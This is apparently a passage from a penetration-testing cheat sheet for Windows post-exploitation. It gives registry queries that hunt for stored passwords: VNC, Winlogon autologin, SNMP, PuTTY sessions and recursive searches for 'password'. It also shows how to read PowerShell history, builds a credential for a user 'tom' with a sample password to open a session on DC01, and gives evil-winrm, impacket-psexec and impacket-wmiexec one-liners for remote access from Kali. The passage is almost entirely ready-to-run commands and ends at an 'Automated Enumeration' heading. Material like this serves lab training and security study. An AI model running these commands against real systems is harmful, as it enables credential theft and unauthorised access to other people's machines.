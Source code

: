 ```powershell

# WINVNC
reg query HKCU\SOFTWARE\ORL\WINVNC3

# VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

# Windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

# SNMP Paramters
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

# Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

# Search for password in registry
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

## Information Goldmine PowerShell


```powershell

Get-History
(Get-PSReadlineOption).HistorySavePath
```


Connect to DC01 as tom user

```powershell

$password = ConvertTo-SecureString "P@ssw0rd!!" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("tom", $password)
Enter-PSSession -ComputerName DC01 -Credential $cred

```

# We can connect to the target from Kali machine

```powershell

evil-winrm -i $IP -u tom -p "P@ssw0rd\!\!" # 5985, 5986 
impacket-psexec tom:'P@ssw0rd!!'@$IP       # 445
impacket-wmiexec tom:'P@ssw0rd!!'@$IP      # 135,445,49667

```

## Automated Enumeration 
